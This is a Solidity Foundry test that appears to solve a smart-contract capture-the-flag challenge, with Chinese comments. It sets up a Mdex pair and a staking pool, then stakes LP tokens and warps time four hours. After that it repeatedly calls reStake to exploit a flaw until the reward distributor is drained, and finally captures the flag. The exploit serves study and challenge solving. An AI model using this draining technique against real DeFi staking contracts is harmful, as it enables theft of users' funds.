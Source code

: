 ```solidity
        console.log("1.factory contract initializes successfully!");
        // 2.部署router合约，填入factory地址和WHT地址（WHT地址可以为任意不产生影响）
        wht = IWHT(deployHelper_wht(WHT_Artifact));
        router = IMdexRouter(deployHelper_mdexRouter(MdexRouter_Artifact,address(mdexFactory),address(wht)));
        console.log("2.router contract:", address(router));
        // 3.部署deploy合约，填入factory和router合约地址，之后调用step1和step2函数进行初始化
        deploy = IDeploy(deployHelper_deploy(deploy_Artifact,address(mdexFactory),address(router)));
        console.log("3.deploy contract:", address(deploy));
        deploy.Step1();
        deploy.step2();
        // 4.调用airdrop函数领取初始代币
        vm.startPrank(attacker);
        deploy.airdrop();
        vm.stopPrank();
        console.log("4.attacker gets airdrop:", deploy.balanceOf(attacker));
        console.log("complete initialization, please start your attack.");
        console.log();

        // 其他初始化工作
        pair = IMdexPair(deploy.pair());
        pool = IQuintConventionalPool(deploy.quintADDRESS());
    }

    function test_isComplete() public{
        vm.startPrank(attacker);
       
        console.log("prepare for attack");
        console.log();
        pair.approve(address(pool), type(uint256).max);
        deploy.approve(address(pool), type(uint256).max);
        // stake增加质押LP的数量
        pool.stake(99999999999999999999000, 1);
        // 等一段时间，这样我们可以得到一些利润, 因为5小时之内的利率比较高，领取到的利润也就高，
        // 因此选择在4小时，累计一段时间，然后利率又高，因此可以得到的钱也更多
        uint256 newtime = block.timestamp + 3600 * 4;
        vm.warp(newtime);
        console.log("4 hours later");
        console.log();

        // 利用restake的漏洞
        for (uint256 i = 0;; i++) {
            // 直到 distributor 不够钱了，就无法转出去，然后报错，我们捕获然后停止
            console.log("[for loop] deploy's balance:",deploy.balanceOf(address(deploy)));
            try pool.reStake(1) {
            } catch (bytes memory err) {
                break;
            }
        }
        console.log();

        vm.expectEmit(true, true, true, true);
        emit flag("succese", attacker);
        pool.captureFlag();
        
        console.log("deploy's balance:",deploy.balanceOf(address(deploy)));
        console.log("captureFlag!");

        vm.stopPrank();
    }

    // 因为foundry在一个测试文件中存在编译器版本问题，所以采取这种方式进行部署合约
```